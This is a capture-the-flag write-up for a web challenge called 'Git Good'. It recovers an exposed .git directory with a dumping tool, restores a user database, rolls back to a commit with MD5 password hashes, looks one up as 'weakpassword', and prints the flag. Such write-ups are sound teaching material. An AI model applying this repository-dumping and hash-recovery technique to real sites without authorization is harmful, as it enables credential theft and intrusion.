



# Git Good

## Challenge:

We've been issued a challenge by the primary competing cyber organization on campus, the Cybersecurity Group at UCSD. You have been granted permission to try and hack into their admin portal to steal their flag. They've been hardening their website for some time now, and they said they think its "unhackable". Show them how wrong they are!

**Website**

https://cgau.sdc.tf/

## Solution:


Nothing works on the web page:



The only exception is the login button which tells us that we cannot log in:



If we check `/robots.txt` we're given some clues:

```bash
User-agent: *
Disallow: /admin.html
Disallow: /.git/
```

We now know there's an administrative login page and a Git repository. There's a good chance the repository has the credentials we need to log in.

If we try to navigate to the `/.git/` directory we're told we cannot access it:

```bash
Cannot GET /.git
```

But [Dumper from GitTools](https://github.com/internetwache/GitTools) has no trouble grabbing the entire thing:

```bash
$ ./gitdumper.sh https://cgau.sdc.tf/.git/ cgau
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating cgau/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[-] Downloaded: logs/HEAD
[-] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/0b/23360a5d79ecf5241fd6790edd619304825b9a
[+] Downloaded: objects/42/6ec68a64f6fe89ec40a3352213703792e080cb
[+] Downloaded: objects/d8/eb39e3e2bb984ce687768d20f58d962942841d
[+] Downloaded: objects/21/c3532b100a5f8566f5fc4c64f2a4486618a67e
[+] Downloaded: objects/a7/6c475d6b53daf7efe8396b494f5e09ab4abc91
[+] Downloaded: objects/2c/55d1ca4ec7d827b7f4357436ca5ea4ee5327d1
[+] Downloaded: objects/aa/c42f1d66b35b027d9538cfb3252473b08f11cd
[+] Downloaded: objects/ce/86d86f4c3f5bd7a63136a2caaf76d57071d905
[+] Downloaded: objects/6a/ab31640a322209ccd9e0e6eeab36ef65be0df0
[+] Downloaded: objects/6a/70ab0a4ef8f968750fc627fe248d30d066c8c2
[+] Downloaded: objects/32/e65831b8ccdef0c8d181116c660e11233983f9
[+] Downloaded: objects/b1/532f74e423381703e466520e99f9619a4ca334
[+] Downloaded: objects/7e/23e8d425a5f91a7f5e70d6c7cc6d7811db661d
[+] Downloaded: objects/9a/55d593b0f12ff6f64a06094aa873690b8ceabd
[+] Downloaded: objects/20/c9f02c6a89d4bdf1d6644b12e80e093bf63a3e
[+] Downloaded: objects/95/96c8286bedc6214c91e3efc2876efd41c6301e
[+] Downloaded: objects/84/f191442c8479c4cbd67937b9cbe3df2038be63
```

Right away we have some targets:

```bash
$ git status
On branch master
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
        deleted:    .gitignore
        deleted:    admin.html
        deleted:    app.js
        deleted:    image1.png
        deleted:    index.html
        deleted:    package-lock.json
        deleted:    package.json
        deleted:    robots.txt
        deleted:    users.db

no changes added to commit (use "git add" and/or "git commit -a")
```

Let's look at `users.db`:

```bash
$ git restore users.db
$ sqlite3 users.db
SQLite version 3.35.5 2021-04-19 18:32:05
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> .schema users
CREATE TABLE users(id INTEGER PRIMARY KEY, email TEXT, password TEXT);
sqlite> SELECT email,password FROM users;
aaron@cgau.sdc.tf|$2b$10$8DFs3422S4yG286Pu1FYWO8zvkVX4kCKZu2VDWp1f8CXbaxj0S8UW
chris@cgau.sdc.tf|$2a$10$mYH9SVwA7zOeh8s9fkpl8egbfEC3qMQFpbg7Aptrp2DFUf7y1oD/i
yash@cgau.sdc.tf|$2a$10$EI2PlyKMjBJneVkSj/Nzi.RgDj6HXCtD/yPbpQEtFy4OmuK.rl3bG
rj@cgau.sdc.tf|$2a$10$0Dl8VuHQamYsDD1wODwzOef.piAL2PmMyV5mduQBO4UxJDHedSwt.
shawn@cgau.sdc.tf|$2a$10$RW.M5zXvKlv9Y96Xhhf1Wu0A91x2riQB.FKK6JJaU5id1OdX5bQM6
sqlite> .exit
```

We can see all of the usernames, but the passswords look like bcrypt hashes.

Sure enough, if we restore `app.js` we can see `require('bcrypt')`. Interestingly, we also see `require('md5')`. It looks like the application was updated from MD5 to bcrypt at some point.

If we check the history, it looks like we're correct:

```bash
commit 0b23360a5d79ecf5241fd6790edd619304825b9a
Author: Aaron <aaron@cgau.sdc.tf>
Date:   Sat Jan 16 12:58:53 2021 -0800

    Upgraded to bcrypt

commit d8eb39e3e2bb984ce687768d20f58d962942841d
Author: Aaron <aaron@cgau.sdc.tf>
Date:   Sat Jan 16 12:52:49 2021 -0800

    Initial commit
```

Let's roll back to the earlier commit:

```
$ git checkout d8eb39
D       .gitignore
D       admin.html
D       image1.png
D       index.html
D       robots.txt
Note: switching to 'd8eb39'.
...
HEAD is now at d8eb39e Initial commit
```

Let's look at this version of our users database:

```bash
$ sqlite3 users.db
SQLite version 3.35.5 2021-04-19 18:32:05
Enter ".help" for usage hints.
sqlite> SELECT email,password FROM users;
aaron@cgau.sdc.tf|e04efcfda166ec49ba7af5092877030e
chris@cgau.sdc.tf|c7c8abd4980ff956910cc9665f74f661
yash@cgau.sdc.tf|b4bf4e746ab3f2a77173d75dd18e591d
rj@cgau.sdc.tf|5a321155e7afbf0cfacf1b9d22742889
shawn@cgau.sdc.tf|a8252b3bbf4f3ed81dbcdcca78c6eb35
sqlite> .exit
```

This time we have MD5 hashes. If we search Google for the very first hash, we get [a hit](https://networkengineering.stackexchange.com/questions/70516/why-does-the-ciscos-command-enable-secret-password-produce-different-hash-f) immediately, telling us that `e04efcfda166ec49ba7af5092877030e` is derived from `weakpassword`.

If we go back to the admin login page, we can log in with `aaron@cgau.sdc.tf` and `weakpassword`:



And we're given our flag: `sdctf{1298754_Y0U_G07_g00D!}`.
